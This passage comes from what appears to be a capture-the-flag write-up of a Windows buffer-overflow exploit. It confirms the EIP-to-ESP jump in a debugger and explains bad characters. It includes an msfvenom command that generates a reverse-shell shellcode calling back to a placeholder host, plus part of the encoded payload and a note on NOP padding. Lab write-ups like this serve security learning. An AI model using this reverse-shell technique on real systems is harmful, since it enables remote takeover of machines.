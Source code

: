 **Note that** ```EIP = b"\x7b\x8a\xa9\x68" # 0x68a98a7b```
**It is written in reverse due to the little-endian format.**
**With this code, we are going to validate if "EIP" indeed points to "ESP".**

![EIPESP](https://github.com/0xLJoseb/Apuntes/blob/main/Buff%20Writeup/Content%26/EIPESP.PNG)


So, we have verified that indeed, EIP holds the address of ESP. Now, pay attention that by clicking on the icon (Step into) or pressing [F7], the program flow goes to the address of ESP. And what is stored in ESP? For now, those values associated with our variable "badchars".

![caracteresESP](https://github.com/0xLJoseb/Apuntes/blob/main/Buff%20Writeup/Content%26/caracteresESP.PNG)

Now, the interesting thing is that everything stored in "ESP" will be executed due to the **Execute_Read** privileges.
Now what we will do is, using the msfvenom tool, generate a shellcode that points to our address, sending a direct console directive
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=[HOST] LPORT=[PORT] --platform windows -a x86 -b "\x00" -f c EXITFUNC=thread
>"\xd9\xc1\xba\x7f\xec\x04\x65\xd 5\xd9\xb1\x52\x31\x53\x17\x83\...<SNIP>
```

This will give us a shellcode encoded with Shikata-Ga-Nai. Therefore, when EIP points to ESP and starts reading the code, it won't be able to interpret it because it's encoded/encrypted. Hence, it's necessary to add a series of "NOPs" characters to the script to give the program time to decrypt the sent code.
